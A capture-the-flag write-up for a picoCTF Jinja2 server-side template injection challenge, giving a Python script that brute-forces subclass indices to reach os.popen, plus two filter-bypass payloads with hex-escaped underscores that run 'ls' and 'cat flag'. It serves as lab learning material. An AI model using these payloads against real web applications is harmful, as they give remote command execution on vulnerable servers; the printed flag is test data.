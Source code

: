 curl -I http://shape-facility.picoctf.net:59746/announce

<img width="570" height="88" alt="Screenshot 2025-08-17 at 10 25 59 PM" src="https://github.com/user-attachments/assets/7a865d9f-eefc-4a9d-bcd4-20a8b5ff69b0" />

```
# Script to craft payload


import requests
import html
import re

url = "ctf-url"
#This payload returns a list of all subclasses of the base Python #object class.
payload = "{{\"\".__class__.__base__.__subclasses__()}}"

#We send the payload to the vulnerable endpoint via a POST request.
r = requests.post(url, data={"content":payload})

#If the request is successful, we decode the HTML content and extract class names using regex.

if r.status_code == 200:
    html_content = r.text
    content_decoded = html.unescape(html_content)
    class_names = re.findall(r"<class '([^']+)'>", content_decoded)
    print(len(class_names))

#For each subclass index, we craft a new payload to try to access __globals__['sys'] and run a shell command: cat flag.
    for i in range(0, len(class_names)):
        new_paload = "{{\"\".__class__.__base__.__subclasses__()["+ str(i) + "].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}"
        #We send the new payload to the server.
         nr = requests.post(url, data={"content":new_paload})
         #If the response contains the flag, we print the result and stop the script.
        if nr.status_code == 200:
            print(nr.text)
            print("*"*20)
            #This is how we find the first subclass that gives us working access to Python internals, in this case: index 80.
            print("class name: ", class_names[i], "index: ", i)
            exit(0)

```


try to print all of directories
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

<img width="1011" height="738" alt="Screenshot 2025-08-17 at 10 38 24 PM" src="https://github.com/user-attachments/assets/fa27a38b-ab5c-4f96-94c6-a6d130ac1711" />

attempt to open flag
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

picoCTF{sst1_f1lt3r_byp4ss_060a5eb0}



